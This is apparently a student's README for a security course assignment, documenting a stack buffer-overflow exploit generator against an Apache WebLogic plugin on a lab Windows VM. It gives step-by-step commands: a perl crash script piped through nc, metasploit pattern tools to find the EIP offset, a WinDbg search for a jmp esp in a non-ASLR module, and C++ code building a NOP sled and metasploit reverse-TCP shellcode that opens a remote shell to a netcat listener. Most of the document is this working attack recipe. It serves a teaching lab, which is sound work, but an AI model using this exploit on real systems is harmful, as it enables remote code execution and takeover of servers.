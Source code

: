 # Programming Assignment 2 - Eric Seals

Documentation for correctly using the exploit generator. There is one directory, named exploitWin, which contains the relevant files. 

# Task

## Compile the c++ exploiter

There are four relevant files: `devil.pl`, `devil2.pl`, `exploitWin.cpp`, and `Makefile`. 

Build the c++ exploit generator: 
```bash
$ make 
```

Run:
```bash
$ ./exploit <memory address of jmp esp> <offset>
```

## Find Offset and Memory Address

First, confirm the Apache web server is running on the Windows VM at IP `192.168.180.20:80`.
On the Kali machine with IP `192.168.180.10`, generate arbitrarily long malicious input to crash the Apache server. For example, use the following perl script presented in class to send the character 'A' 5000 times (in a format accepted by the server). 

```perl
#!/usr/bin/perl

#filename: devil.pl

$| = 1;

$buf = "A" x 5000;
$request = "GET /weblogic/ $buf\r\n\r\n";
print $request
```

which, on Kali, can be sent with:

```bash
$ perl devil.pl | nc 192.168.180.20 80
```

With a valid length input which crashes the program, use metasploit to find the exact size to the EIP. For example, 5000 is used below as this was the experimentally found value large enough to crash the server.

On Kali, run:

```bash
$ cd /usr/share/metasploit-framework/tools/exploit
$ ./pattern_create.rb -l 5000
```

Use the output of `pattern_create.rb` in place of the 5000 As in the above perl script (the script `devil2.pl` contains this change). Before issuing the command again, open up WinDbg (as admin) on the victim Windows VM to monitor the child Apache process. 

Copy the value where the program crashed, for example `67463467` as seen in the image (also double check, on the line above, the eip=... is the value).

![WinDBG crash report](res/WinDBG_after-crash.png)

Back on the Kali machine at the same working directory used to create the pattern, execute:

```bash
$ ./pattern_offset.rb -q 67463467
```

This will now give you the offset which was found to be `4093`. 

## Stack Randomization

In order to get around the stack randomization, the WinDBG with the "narly" tool can be used to find regions of memory without ASLR protection. In the WinDBG, run the following :

```bash
> !load narly
> !nmod
```

<img src="res/WinDBG_finding-address.png" alt="Finding memory regions without ASLR" width="600"/>

Any listing here with the `/SafeSEH OFF` will work.
For example, we can search "mod_wl_20" with the addresses `0x10000000` to `0x1008e000` to search for the `jmp esp` command. 
Running the following in WinDBG:

```bash
> s 0x10000000 0x1008e000 ff e4
```

![WinDBG crash report](res/WinDBG_findingFFE4.png)

We can use any of these addresses (for example, 0x1005bc0f) to overwrite the EIP. If nothing shows up when the above line is executed, simply try a different address region.

## Run the exploit

To run, in a Kali window to receive the shell:

```bash
$ nc -l -p 8228 -nvv
```

On another terminal window in Kali, run the following two commands to receive the shell with the found address and offset size.

Run:
```bash
$ make
$ EGG=`./exploit 1005bc0f 4093`
$ echo $EGG | nc 192.168.180.20 80
```

At this point you should have the shell in the Kali terminal window which executed the `nc` command. For example, here is a screenshot of the exploit working following procedures outlined above:

![Success](res/Kali_Success.png)

## Some Notes

The shell byte code is generated with metasploit, specifically the windows/shell_reverse_tcp with x86/alpha_mixed encoder.
LHOST=192.168.180.10 and LPORT=8228.

The exploit itself fills the space up until the EIP with a NOPSled:

```c++
while (i < size) {
  buf[i++] = '\x90';
}
```

Overwrites the EIP with the address of a `jmp esp`: 

```c++
buf[i++] = addr[0];
buf[i++] = addr[1];
buf[i++] = addr[2];
buf[i++] = addr[3];
```

NOPSled buffers for enough bytes to account for the decoding and callee cleanup (experimentally found 24 bytes is sufficient):

```c++
for (size_t j = 0 ; j < decoderSled ; j++) {
  buf[i++] = '\x90';
}
```

Issues a command to decrement the esp by 200:

```c++
buf[i++] = '\x81';
buf[i++] = '\xC4';
buf[i++] = '\x38';
buf[i++] = '\xFF';
buf[i++] = '\xFF';
buf[i++] = '\xFF';
```

Wraps everything inside an expected server format:

```c++
std::cout << "GET /weblogic/ ";
for (i = 0 ; i < totalSize ; i++) {
  std::cout << buf[i];
}
std::cout << "\r\n\r\n";
```

Final note, during my tests I always found the ESP to be 4 bytes greater than the EIP, however, I expected this not to be case given that the callee "cleans up" on Windows. This isn't a concern as the exploit generator does take this into consideration, but I am curious why I couldn't replicate the professor's in class demo.